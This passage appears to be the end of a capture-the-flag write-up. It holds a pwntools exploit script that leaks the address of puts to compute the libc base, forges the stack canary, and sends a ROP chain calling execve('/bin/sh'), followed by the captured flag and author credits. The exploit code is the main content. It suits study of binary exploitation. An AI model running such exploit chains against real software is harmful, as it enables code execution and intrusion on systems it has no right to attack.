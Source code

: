 ```py
p.recvuntil('> \n')
putsleak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = putsleak - libc.sym.puts # calculate libc base address
binsh = next(libc.search(b'/bin/sh'))

log.info(f"Puts: {hex(putsleak)}")
log.info(f"Libc base: {hex(libc.address)}")

rop = ROP([libc, elf])
rop.call(rop.ret[0])
rop.execve(binsh, 0, 0)

p.sendlineafter('> ', flat({24: fake_canary, 40: rop.chain()}))
p.interactive()
```

---

**3k{WH47_Pr3V3N7_Y0U_Fr0M_r0PP1N6_1F_Y0U_C4N_0V3rWr173_7H3_M4573r_C4N4rY_17531F}**

---

_credits to **[violenttestpen](https://violenttestpen.github.io)** and **[niktay](https://dystopia.sg)** for some of the concepts and techniques here. go check them out!!_
